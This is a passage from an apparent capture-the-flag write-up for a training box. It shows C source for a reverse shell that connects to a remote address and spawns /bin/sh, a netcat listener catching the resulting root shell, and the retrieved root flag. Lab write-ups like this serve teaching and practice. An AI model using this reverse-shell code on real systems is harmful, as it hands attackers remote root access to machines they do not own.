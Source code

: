 ```c
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
    return 0;
}
```

Open a listener and wait 1 minute to have a root shell:

~~~
kali@kali:/data/The_Blob_Blog/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.8.67] 54050
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
~~~

## Root flag

And now, let's get the root flag:

~~~
ls -la
total 44
drwx------  7 root root 4096 Jul 29 22:16 .
drwxr-xr-x 25 root root 4096 Jul 28 17:13 ..
lrwxrwxrwx  1 root root    9 Jul 29 22:16 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jul 27 21:20 .cache
drwxr-xr-x  6 root root 4096 Jul 27 20:21 .config
drwxr-xr-x  3 root root 4096 Jul 24 17:00 .local
drwxr-xr-x  2 root root 4096 Jul 24 22:53 .nano
drwxr-xr-x  2 root root 4096 Jul 28 17:56 .patch
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Jul 24 22:53 .selected_editor
-r--r-----  1 root root   28 Jul 26 10:13 root.txt
cat root.txt
THM{G00D_J0B_G3++1NG+H3R3!}
~~~

Root flag: `THM{G00D_J0B_G3++1NG+H3R3!}`
